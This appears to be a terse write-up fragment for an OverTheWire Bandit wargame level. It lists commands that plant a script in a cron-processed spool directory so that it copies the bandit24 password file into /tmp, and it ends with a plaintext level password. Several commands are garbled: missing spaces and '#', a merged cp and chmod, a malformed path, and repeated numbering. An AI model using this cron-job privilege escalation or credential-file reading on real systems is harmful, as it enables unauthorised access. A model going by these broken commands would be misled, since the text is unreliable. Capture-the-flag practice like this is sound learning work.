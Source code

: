 `cmd3 : cat cronjob_bandit24`

`cmd4 : cat /usr/bin/cronjob_bandit24.sh`

`cmd5 : mkdir /tmp/jeanmarc123`

`cmd6 : cd /tmp/jeanmarc123`

`cmd7 : nano bandit24.sh`

`cmd8 : !/bin/bash`

`cmd9 : cat /etc/bandit_pass/bandit24 >> /tmp/jeanmarc123/level24`

`cmd10 : chmod 777 bandit24.sh`

`cmd11 : cp bandit24.sh/var/spool/bandit24/chmod 777 /tmp/jeanmarc123`

`cmd12 : cat level24`

`cmd12 : echo I am user bandit24 | md5sum | cut -d '' -f 1`

`cmd12 : cat /tmp.ee4ee1703b083edac9f8183e4ae70293`

`cmd12 : ssh bandit24@localhost`

**mdp : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**
